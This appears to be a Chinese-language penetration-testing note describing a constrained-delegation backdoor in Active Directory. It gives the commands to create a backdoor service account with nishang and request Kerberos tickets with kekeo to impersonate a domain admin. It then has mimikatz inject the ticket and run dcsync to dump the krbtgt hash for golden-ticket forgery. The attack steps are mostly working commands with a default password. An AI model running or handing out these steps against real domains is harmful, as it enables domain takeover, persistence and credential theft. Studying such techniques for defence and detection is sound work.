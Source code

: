 	http://192.168.0.107/ps/nishang/ActiveDirectory/Add-ConstrainedDelegationBackdoor.ps1
	新增一个受限委派服务账户，或添加受限委派后门功能给一个已知账户密码存在的服务账户。
	需运行在域控制器上，本次演示的是新建后门账户，若是给已知账户密码的服务账户添加功能，步骤一致。
	PS > Add-ConstrainedDelegationBackdoor -SamAccountName backdoor -Domain zone.com -AllowedToDelegateTo ldap/dc.zone.com
	密码默认为Password@123!可以修改脚本中$Password参数修改密码。
![image](/assets/Pentest_Note/master/img/561.png)
![image](/assets/Pentest_Note/master/img/562.png)

	https://github.com/samratashok/ADModule
	导入ADModule中的Microsoft.ActiveDirectory.Management.dll和Import-ActiveDirectory.ps1
	>Import-Module Microsoft.ActiveDirectory.Management.dll -Verbose
	>Import-Module Import-ActiveDirectory.ps1
	现以域内普通用户y登录一台域内机器sub2k8，使用kekeo获取TGT
	Kekeo#tgt::ask /user:backdoor /domain:zone.com /password:Passowrd@123!
![image](/assets/Pentest_Note/master/img/563.png)

	Kekeo#tgs::s4u /tgt:TGT_backdoor@ZONE.COM_krbtgt~zone.com@ZONE.COM.kirbi /user:godadmin@zone.com /service:ldap/dc.zone.com获取以域管理身份访问ldap的TGS 
![image](/assets/Pentest_Note/master/img/564.png)

	使用mimikatz写入TGS票据
	mimikatz#kerberos::ptt C:\Users\y.ZONE\Desktop\kekeo\x64\TGS_godadmin@zone.com@ZONE.COM_ldap~dc.zone.com@ZONE.COM.kirbi
![image](/assets/Pentest_Note/master/img/565.png)

	接下来就可以dcsync导出krbtgt的hash，通过krbtgt伪造黄金票据
	mimikatz#lsadump::dcsync /user:krbtgt /domain:zone.com
![image](/assets/Pentest_Note/master/img/566.png)